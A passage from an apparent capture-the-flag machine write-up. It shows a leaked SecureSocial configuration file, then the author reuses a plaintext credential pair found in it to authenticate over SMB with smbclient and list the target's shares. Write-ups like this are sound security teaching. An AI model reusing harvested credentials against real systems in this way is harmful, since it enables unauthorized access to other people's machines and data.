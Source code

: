 ```
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17    	withUserNameSupport=false
18    	sendWelcomeEmail=true
19    	enableGravatarSupport=true
20    	signupSkipLogin=true
21    	tokenDuration=60
22    	tokenDeleteInterval=5
23    	minimumPasswordLength=8
24    	enableTokenJob=true
25    	hasher=bcrypt
26	}
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   



---
```

This gives us a bunch of information we can use as attackers like users, and FQDN of an email server, and most importantly login creds. `alex:lol123!mD`
Let's try these on SMB!

```
$ smbclient -U 'alex' -L //10.129.245.121
Password for [WORKGROUP\alex]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	devshare        Disk      
	IPC$            IPC       Remote IPC
	Users           Disk      
SMB1 disabled -- no workgroup available
```
